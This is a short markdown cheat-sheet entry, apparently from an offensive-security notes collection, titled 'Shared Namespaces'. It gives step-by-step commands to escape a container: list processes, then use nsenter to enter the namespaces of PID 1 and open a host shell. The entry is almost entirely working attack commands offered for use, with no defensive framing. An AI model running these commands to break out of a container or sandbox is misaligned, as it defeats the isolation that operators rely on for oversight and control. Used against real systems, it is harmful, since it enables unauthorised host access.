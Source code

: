 # Shared Namespaces

## STEPS

### 1) List processes

    ps aux 

### 2) If we detect anything interesting, we can invoke the command: 

    nsenter --target 1 --mount sh or: nsenter --target 1 --mount --uts --ipc --net /bin/bash

### 3) If it worked, we escaped the container!

### TIP: Interesting processes can be /sbin/init of process 1 (the parent of all processes) for example
